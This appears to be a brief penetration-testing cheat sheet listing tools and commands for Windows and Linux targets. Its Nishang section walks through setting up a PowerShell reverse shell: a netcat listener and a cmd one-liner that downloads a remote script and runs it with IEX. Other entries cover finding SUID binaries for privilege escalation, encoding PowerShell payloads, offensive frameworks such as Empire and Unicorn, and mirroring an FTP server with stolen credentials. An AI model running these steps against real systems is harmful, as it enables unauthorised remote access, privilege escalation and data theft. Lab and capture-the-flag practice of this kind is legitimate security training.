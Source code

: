 # Tools & Techniques


## Nishang
To get a sheel from an entry point where cmd is working or the entry point is a cmd

cp /opt/nishang/Shells/Invoke-PowershellTcp.ps1 nishang.ps1
gedit nishang.ps1
Invoke-PowershellTcp -Reverse -IpAdress *.*.*.* -Port *
python -m SimpleHTTPServer
nc -lvnp *

In cmd:
powershell "IEX(New-Object Net.WebClient).downloadString('http://*.*.*.*:*/nishang.ps1')"


## Linux

# to list suid binary file:
find / -perm -u=s -type f 2>/dev/null -exec ls -l {} \;

## Windows

# to convert in base64 with UTF-16LE encoding
echo -n "Hello World" | iconv --to-code UTF-16LE | base64 -w 0

## Tools

# Shell and Crack
Unicorn.py :  https://github.com/trustedsec/unicorn  
Empire.py  :  https://github.com/EmpireProject/Empire
JAWS       :  https://github.com/411Hall/JAWS   (Windows Enumeration Tools)
zip2john   :  https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c (To crack zipped password)

# Steganography tools
zsteg,steghide,binwalk.strings,file,foremost

# Other tools
readpst,mdb-shell,mdb-sql
## Techniques

To download all files from ftp server:
wget -m --no-passive ftp://username:password@x.x.x.x
